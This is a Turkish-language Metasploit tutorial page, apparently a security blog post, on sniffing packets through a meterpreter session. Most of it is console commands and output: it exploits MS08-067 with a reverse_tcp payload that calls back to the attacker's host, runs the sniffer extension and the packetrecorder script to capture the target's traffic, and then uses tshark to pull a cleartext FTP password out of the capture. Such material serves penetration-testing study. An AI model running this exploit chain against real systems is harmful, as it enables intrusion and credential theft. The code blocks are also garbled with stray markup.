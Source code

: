 ```yaml
---
draft: false

title:  'MSF Paket Dinleme'
date: '2017-06-05T13:32:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Metasploit Framework kullanarak bir hedef bilgisayarda meterpreter shell açtığınızda, bağlandığınız bilgisayarın ağda yaptığı haberleşme esnasında gönderilen ve alınan bilgileri görmek isteyebilirsiniz. Bu işleme\_paket dinleme\_adı verilmektedir." 
 
url:  /tr/msf-paket-dinleme/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Paket Dinleme



Metasploit Framework kullanarak bir hedef bilgisayarda meterpreter shell açtığınızda, bağlandığınız bilgisayarın ağda yaptığı haberleşme esnasında gönderilen ve alınan bilgileri görmek isteyebilirsiniz. Bu işleme **paket dinleme** adı verilmektedir.



Meterpreter, `sniffer` modülü ile bu trafiği kaydedebilirsiniz. Toplamda 200.000 pakete kadar kayıt yapabilen `sniffer` modülü, paketleri PCAP formatında kaydeder. Böylece PCAP dosyasını `psnuffle, dsniff veya wireshark` programlarıyla analiz edebilirsiniz.



Meterpreter `sniffer` eklentisi MicroOLAP Packet Sniffer SDK kullanır. Paketleri dinlemek için diskin herhangi bir yerinden veri alıp verme işlemi yapmaz. Ayrıca, meterpreter tarafından oluşturulan paketler kayıt dışı tutarak karışıklığın önüne de geçer. Meterpreter tarafından yakalanan veriler, bilgisayarımıza SSL/TLS kullanılarak şifreli olarak aktarılır.



## Meterpreter Oturum Açalım



Öncelikle keşfettiğiniz bir servis veya zafiyeti kullanarak meterpreter oturumu açmalısınız. Aşağıda örneğini görebilirsiniz.


```bash
msf **&gt;** use exploit/windows/smb/ms08_067_netapi
msf exploit**(**ms08_067_netapi**)** **&gt;** set PAYLOAD windows/meterpeter/reverse_tcp
msf exploit**(**ms08_067_netapi**)** **&gt;** set LHOST 10.211.55.126
msf exploit**(**ms08_067_netapi**)** **&gt;** set RHOST 10.10.1.119
msf exploit**(**ms08_067_netapi**)** **&gt;** exploit

**[*********]** Handler binding to LHOST 0.0.0.0
**[*********]** Started reverse handler
**[*********]** Triggering the vulnerability...
**[*********]** Transmitting intermediate stager **for **over-sized stage...**(**216 bytes**)**
**[*********]** Sending stage **(**205824 bytes**)**
**[*********]** Meterpreter session 1 opened **(**10.10.1.4:4444 -&gt; 10.10.1.119:1921**)**
```



## Sinffer Modülünü Yükleyelim



Meterpreter oturumu açıldığında `use sniffer` komutuyla eklentiyi aktif hale getirmeliyiz. Ardında `help` komutunu verdiğinizde, yardım listesinde `sniffer` ile ilgili kullanılabilir durumda olan komutları görebilirsiniz.


```bash
meterpreter **&gt;** use sniffer
Loading extension sniffer...success.

meterpreter **&gt;** help

Sniffer Commands
**================**

     Command             Description
     -------             -----------
     sniffer_dump        Retrieve captured packet data
     sniffer_interfaces  List all remote sniffable interfaces
     sniffer_start       Capture packets on a previously opened interface
     sniffer_stats       View statistics of an active capture
     sniffer_stop        Stop packet captures on the specified interface
```



## Dinlenebilir Arayüzler



Hedef sistemde hangi ağ arayüzlerinin aktif olduğunu görmek için `sniffer_interfaces` komutunu kullanarak listeyi inceliyoruz.


```bash
meterpreter **&gt;** sniffer_interfaces

1 - 'VMware Accelerated AMD PCNet Adapter' **(** type:0 mtu:1514 usable:true dhcp:true wifi:false **)**
```



## Dinlemeye Başlama



Bizim örneğimizde 1 adet arayüz bulunmaktadır. Bu ağ cihazını dinlemek için `sniffer_start 1` komutunu veriyoruz. Bilgiler `/tmp/all.cap` dosyasına kayıt edilecektir.


```bash
meterpreter **&gt;** sniffer_start 1
**[*********]** Capture started on interface 1 **(**200000 packet buffer**)**
```



## Kayıtları Kontrol Etme



Dinleme işlemi devam ederken, ne kadar paketin kayıt edildiğini görmek için `sniffer_dump` komutunu kullanarak kaç adet paketin dosyaya yazıldığını görebilirsiniz.


```bash
meterpreter **&gt;** sniffer_dump 1 /tmp/all.cap
**[*********]** Dumping packets from interface 1...
**[*********]** Wrote 19 packets to PCAP file /tmp/all.cap

meterpreter **&gt;** sniffer_dump 1 /tmp/all.cap
**[*********]** Dumping packets from interface 1...
**[*********]** Wrote 199 packets to PCAP file /tmp/all.cap
```



## packetrecorder Eklentisi



Meterpreter `sniffer` eklentisinin yanında paket dinleme için geliştirilen `packetrecorder` script kodlarını da kullanabilirsiniz. Bu modül, paket kayıtlarını belirli zaman aralıklarına bölmenizi sağlar. Örneğin 30 Saniye aralıklarla kayıt yapmak isteyebilirsiniz.



<h3 class="wp-block-heading" id="packetrecorder-aktif-hale-getirelim">packetrecorder Aktif Hale Getirelim


```bash
meterpreter **&gt;** run packetrecorder 
Meterpreter Script **for **capturing packets **in **to a PCAP file
on a target host given a interface ID.

OPTIONS:

    -h        Help menu.
    -i   Interface ID number where all packet capture will be **done**.
    -l   Specify and alternate folder to save PCAP file.
    -li        List interfaces that can be used **for **capture.
    -t   Time interval **in **seconds between recollection of packet, default 30 seconds.
```



Dinlemeye başlamadan önce, dinlenebilir arayüzlerin listesini kontrol edelim.


```bash
meterpreter **&gt;** run packetrecorder -li

1 - 'Realtek RTL8139 Family PCI Fast Ethernet NIC' **(** type:4294967295 mtu:0 usable:false dhcp:false wifi:false **)**
2 - 'Citrix XenServer PV Ethernet Adapter' **(** type:0 mtu:1514 usable:true dhcp:true wifi:false **)**
3 - 'WAN Miniport (Network Monitor)' **(** type:3 mtu:1514 usable:true dhcp:false wifi:false **)**
```



Bu örneğimizde 3 adet ağ cihazı olduğunu görüyoruz. `-i 2` seçeneği ile 2 numaralı arayüzü dinleyeceğimizi belirtmiş oluyoruz. `-l /root/` seçeneği ile PCAP dosyasının nereye kayıt edileceğini belirliyoruz. Dinleme başladığından bir süre sonra işlemi bitirmek için `CTRL+C` tuşlarını kullanabilirsiniz.


```bash
meterpreter **&gt;** run packetrecorder -i 2 -l /root/
**[*********]** Starting Packet capture on interface 2
**[**+] Packet capture started
**[*********]** Packets being saved **in **to /root/logs/packetrecorder/XEN-XP-SP2-BARE_20101119.5105/XEN-XP-SP2-BARE_20101119.5105.cap
**[*********]** Packet capture interval is 30 Seconds
^C
**[*********]** Interrupt 
**[**+] Stopping Packet sniffer...
meterpreter **&gt;**
```



Kayıt edilen PCAP dosyasını `wireshark` veya `tshark` programıyla analiz edebilirsiniz. Aşağıda `tshark` komutuna ait bir örnek bulunmaktadır. Örnek komutta, paketlerin içinde geçen `PASS` ifadesinin bulunduğu paketler aranmaktadır.


```bash
root@kali:~/logs/packetrecorder/XEN-XP-SP2-BARE_20101119.5105# tshark -r XEN-XP-SP2-BARE_20101119.5105.cap |grep PASS
Running as user "root" and group "root". This could be dangerous.
2489  82.000000 192.168.1.201 -&gt; 209.132.183.61 FTP Request: PASS s3cr3t
2685  96.000000 192.168.1.201 -&gt; 209.132.183.61 FTP Request: PASS s3cr3t```
